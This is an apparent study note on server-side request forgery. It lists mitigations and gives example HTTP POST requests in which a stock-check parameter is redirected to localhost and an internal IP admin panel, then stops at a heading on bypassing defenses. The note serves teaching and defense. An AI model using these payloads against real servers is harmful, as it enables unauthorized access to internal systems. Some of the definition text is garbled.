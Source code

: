 <h4>Server-Side Request Forgery (SSRF)</h4>


Server-side request forgery attack allows attacker anto to trick server-side applications into allowing access to the server modifying files. ``SSRF can be successful if the target application reads that from a url without sanitizing it.``
--- ---
**`MITIGATION`**
```
1.Mitigate with firewall
2.Whitelisting and DNS Resolution
3.Authentication on Internal Services
4.Response Handling
5.Validation of user input
```
--- ---

**`Common Attacks`**

Attacks Against the Server Itself
- Attacker induces the application to make an HTTP request back to the server that is hosting the application (via loopback)
- Involves supplying the URL with a hostname like 127.0.0.1 or localhost
- Example code -- shopping application that allows user to check stock
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D
6%26storeId%3D1
```
	- Makes request to the URL
	- Retrieves the stock status
	- Return to the user
- Modify this for an attack:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://localhost/admin
```
	- Server fetches contents of the /admin url and returns to the user
	- Authenticates as the machine/server itself

Attacks Against Other Systems
- Assume there is an administrative interface at https://192.168.0.68/admin
- Attack can exploit and access this:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

Circumventing Common SSRF Defenses
